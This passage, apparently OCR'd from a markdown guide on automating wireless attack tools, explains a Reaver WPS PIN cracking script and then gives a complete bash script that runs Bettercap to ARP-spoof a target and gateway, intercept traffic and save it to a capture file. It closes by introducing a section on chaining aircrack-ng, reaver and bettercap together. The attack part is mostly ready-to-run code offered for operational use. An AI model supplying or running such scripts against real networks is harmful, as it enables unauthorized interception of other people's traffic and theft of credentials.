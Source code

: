 - **Explanation**:
  - **WPS Cracking**: The script uses Reaver to crack the WPS PIN of the target AP.
  - **Logging**: Output is stored in a specified directory to track progress and capture potential errors.

#### c) **Automated Bettercap Network Attack Script**:

This script automates Bettercap for Man-in-the-Middle attacks like ARP spoofing and sniffing traffic.

```bash
#!/bin/bash
# Automated Man-in-the-Middle with Bettercap

# Input Variables
INTERFACE="wlan0"                # Network Interface
TARGET_IP="192.168.1.100"        # Target IP
GATEWAY_IP="192.168.1.1"         # Gateway IP
OUTPUT_DIR="/root/bettercap"     # Directory to store captured data

# Check if interface is up
if ! ip link show $INTERFACE | grep -q "state UP"; then
    echo "Error: Interface $INTERFACE is down. Bringing it up..."
    ip link set $INTERFACE up
fi

# Start Bettercap for ARP spoofing
mkdir -p $OUTPUT_DIR
echo "Starting Man-in-the-Middle attack with Bettercap..."
bettercap -I $INTERFACE -T $TARGET_IP -S $GATEWAY_IP -O $OUTPUT_DIR/capture.pcap

# Sniff traffic and save packets
echo "Sniffing traffic..."
bettercap -I $INTERFACE --sniffer-output $OUTPUT_DIR/capture.pcap -L 20

# Check captured data
if [ -f "$OUTPUT_DIR/capture.pcap" ]; then
    echo "Capture successful! Traffic saved to $OUTPUT_DIR/capture.pcap"
else
    echo "Failed to capture traffic. Check Bettercap logs for errors."
fi
```

- **Explanation**:
  - **ARP Spoofing**: Uses Bettercap to spoof ARP packets between the target and gateway, allowing traffic interception.
  - **Traffic Sniffing**: Captures packets and stores them for later analysis.

### 2. **Toolchain Optimization**: Combining `aircrack-ng`, `reaver`, and `bettercap` for Seamless Workflow

Optimizing your toolchain means setting up automated workflows where each tool complements the other. Here’s a high-level optimized sequence of commands:
